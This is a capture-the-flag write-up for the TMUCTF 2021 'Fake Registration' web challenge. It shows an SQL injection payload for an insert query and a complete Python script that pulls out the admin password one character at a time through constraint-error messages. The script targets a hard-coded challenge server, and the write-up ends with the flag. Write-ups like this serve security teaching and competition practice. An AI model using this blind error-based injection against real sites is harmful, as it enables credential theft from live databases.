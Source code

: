 # Challenge Description
<p align="center">
  <img src="Challenge.png">
</p>
<br>

# Writeup
In this challenge, we are given a registration page with the [server-side code](https://github.com/TMUCTF/TMUCTF-2021/blob/main/Web/Fake%20Registration/Challenge%20Files/challenge.zip).
Open the `app.py` file. We see that the flag is the admin password.
In addition, the username and password entered by a user is stored in the database with an `insert` query.
Since this query is not written securely, it is possible to inject SQL commands through it.
As can be seen in the code, the length of each of the username and password fields is limited to 67.
Given this limitation, we try to obtain the correct payloads to extract information from the database.
The following payload, in addition to meeting the length limit, can help us to extract the admin password:
```
',(SELECT 1 FROM users WHERE id=1 AND substr(password,1,1)='T'))--
```
By entering this payload in the username field, the following message will be displayed to us:
<p align="center">
  <img src="Writeup Files/1.png">
</p>

As shown in this figure, the `UNIQUE constraint failed: users.username` error is shown.
So the character 'T' is the correct value of the first character of the admin password.

If we run the above payload with any other character, the `NOT NULL constraint failed: users.password` error is displayed, which indicates that the character is incorrect (the character leads to an empty value for the password field).
Therefore, this payload can be run for different characters and finally, the admin password, which is the flag, is obtained.
The complete script for solving the challenge is as follows (also available in [solve.py](https://github.com/TMUCTF/TMUCTF-2021/blob/main/Web/Fake%20Registration/Writeup%20Files/solve.py)).
```python
import requests

flag = []
for i in range(1, 69):
    for j in range(32, 127):
        payload = f"',(SELECT 1 FROM users WHERE id=1 AND substr(password,{str(i)},1)='{chr(j)}'))--"
        response = requests.post("http://130.185.123.246/register", data = {"username": payload, "password": "test"}, verify=False)
        if ("UNIQUE" in response.text):
            flag.append(chr(j))
            print(chr(j))
print("flag:", ''.join(flag))
```
The flag:
```
TMUCTF{P455w0rd5_mu57_b3_l0n6_4nd_c0mpl3x_l1k3_2MWn&p#FmjShTZXfAg:)}
```

